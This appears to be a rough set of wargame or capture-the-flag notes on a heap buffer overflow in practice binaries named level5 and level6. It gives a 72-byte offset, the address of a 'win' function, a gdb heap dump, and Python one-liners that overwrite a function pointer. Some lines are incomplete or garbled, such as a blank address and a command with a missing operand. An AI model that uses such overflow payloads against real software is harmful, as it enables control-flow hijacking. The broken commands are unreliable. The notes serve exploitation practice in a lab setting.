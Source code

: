 Okay this looks like a buffer overflow

I calculated the offset: 72

Here is the address of function n (win) : `0x08048454` == `\x54\x84\x04\x08`

Here is the adress of function m (lose) : `0x8048468` == 


(python -c 'print ("A" * 64 + )';cat) | ./level5

```
heap info proc map

0x804a000  0x806b000    0x21000        0x0 [heap]
```

```console
(gdb) x/50x 0x804a000
0x804a000:	0x00000000	0x00000049	0x41414141	0x00000000
0x804a010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a050:	0x08048468	0x00000000	0x00000000	0x00020fa9
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000
```

18 x 4 = 72


(python -c 'print ("A" *(72) + "\x54\x84\x04\x08" )';cat) | ./level6
(python -c 'print ("A" *(4 * 17) + "\x54\x84\x04\x08" )';cat) | ./level6


`(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB`

run <(python -c 'print ("A" * 72 + "\x54\x84\x04\x08")';) | ./level6

